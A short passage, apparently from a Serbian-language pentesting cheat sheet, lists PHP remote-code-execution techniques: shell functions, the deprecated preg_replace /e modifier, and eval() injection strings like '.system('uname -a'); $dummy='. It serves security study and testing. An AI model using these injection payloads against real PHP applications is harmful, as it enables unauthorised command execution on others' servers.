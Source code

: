 ![](<../../../.gitbook/assets/image (465).png>)

## Izvršenje koda

**system("ls");**\
**\`ls\`;**\
**shell\_exec("ls");**

[Pogledajte ovo za više korisnih PHP funkcija](php-useful-functions-disable\_functions-open\_basedir-bypass/)

### **RCE putem** **preg\_replace()**

```php
preg_replace(pattern,replace,base)
preg_replace("/a/e","phpinfo()","whatever")
```

Da bi se izvršio kod u "replace" argumentu, potrebno je imati barem jedno poklapanje.\
Ova opcija preg\_replace funkcije je **zastarela od PHP 5.5.0.**

### **RCE putem Eval()**

```
'.system('uname -a'); $dummy='
'.system('uname -a');#
'.system('uname -a');//
'.phpinfo().'
<?php phpinfo(); ?>
```
